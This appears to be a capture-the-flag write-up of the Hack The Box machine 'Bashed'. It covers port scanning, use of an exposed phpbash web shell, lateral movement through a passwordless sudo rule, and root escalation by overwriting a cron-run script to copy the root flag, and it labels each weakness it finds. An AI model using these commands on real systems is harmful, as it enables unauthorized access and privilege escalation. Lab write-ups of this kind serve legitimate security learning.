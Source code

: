 #+TITLE: HTB Writeup – Bashed
#+SUBTITLE: Easy HTB Machine
#+AUTHOR: Leonardo Tamiano
#+DATE: 2023-11-25

* Service Enumeration
  Machines listens on IP ~10.129.38.153~. Using ~nmap~ we find the
  following

  #+begin_src bash
$ nmap -p- bashed

Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-08 03:35 CET
Nmap scan report for bashed (10.129.38.153)
Host is up (0.052s latency).
Other addresses for bashed (not scanned): 10.129.34.139
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
  #+end_src

  We find therefore that there is a port *tcp/80* listening.

  #+begin_src bash
$ nmap -sC -sV -p80 bashed
  #+end_src
  
* Initial Access
  By going with the browser to the path http://bashed/dev/ we see a
  file exposed named ~phpbash.php~.

  # TODO: add screen

  By requesting that file we open a web shell that was left by mistake
  by the developer.

  *Vulnerability 1*: Web server index was open and let us discover the
  phpbash.php resource.

  *Vulnerability 2*: The phpbash.php resource is a critical php code
  which should not be left in a web server accessible by anyone.

* User Flag
  Once inside as ~www-data~ we can check the various users of the
  machine by checking the file ~/etc/passwd~

  #+begin_example

  #+end_example

  access the user flag by going to
  ~/home/arrexel~

  #+begin_src bash
cat /home/arrexel/user.txt  
  #+end_src

* Lateral Movement
  Executing ~sudo -l~ as ~www-data~ we see

  #+begin_src bash
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
  #+end_src

  As we can see, we can execute any program as the user ~scriptmanager~
  with no password required. This allows us to easily switch user and
  perfrom a lateral movement within the machine in order to become
  ~scriptmanager~

  #+begin_src bash
sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'             
  #+end_src

  *Vulnerability 3*: sudo -l configuration required no password, and
  this is not good!
  
* Privilege Escalation
  Analyzing the cronjobs using ~pspy64~ we see that the root account
  executes every 5 min the bash script found within
  ~/scripts/test.sh~. Since we can write on that directory we can abuse
  this by writing the following malicious payload

  #+begin_src bash
echo "import os; os.system('cp /root/root.txt /dev/shm/.logic.txt && chmod 777 /dev/shm/.logic.txt')" > /scripts/test.sh
  #+end_src

  with this we can copy the root flag within ~/dev/shm/.logic.txt~ the
  next time the script is excecuted.

  *Vulnerability 4*: problem with permissions, the folder ~/scripts/~
  should not be writable by non root users. 

* Root Flag
